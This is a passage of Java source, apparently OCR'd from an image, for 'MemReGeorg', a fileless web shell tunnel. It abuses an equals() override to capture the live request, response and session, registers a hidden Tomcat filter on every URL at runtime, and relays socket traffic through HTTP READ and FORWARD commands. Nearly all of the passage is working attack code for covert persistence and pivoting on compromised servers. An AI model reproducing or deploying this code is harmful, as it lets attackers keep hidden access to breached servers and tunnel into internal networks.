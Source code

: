 ```java
                try {
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(512);
                    int bytesRead = socketChannel.read(buf);
                    ServletOutputStream so = response.getOutputStream();
                    while (bytesRead > 0){
                        so.write(buf.array(),0,bytesRead);
                        so.flush();
                        buf.clear();
                        bytesRead = socketChannel.read(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                    so.flush();
                    so.close();
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }

            } else if (cmd.compareTo("FORWARD") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try {
                    int readlen = request.getContentLength();
                    byte[] buff = new byte[readlen];
                    request.getInputStream().read(buff, 0, readlen);
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(readlen);
                    buf.clear();
                    buf.put(buff);
                    buf.flip();
                    while(buf.hasRemaining()) {
                        socketChannel.write(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                    socketChannel.socket().close();
                }
            }
        } else {
            filterChain.doFilter(request, response);
        }
    }

    public boolean equals(Object obj) {
        Object[] context=(Object[]) obj;
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new MemReGeorg(),"reGeorg","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
```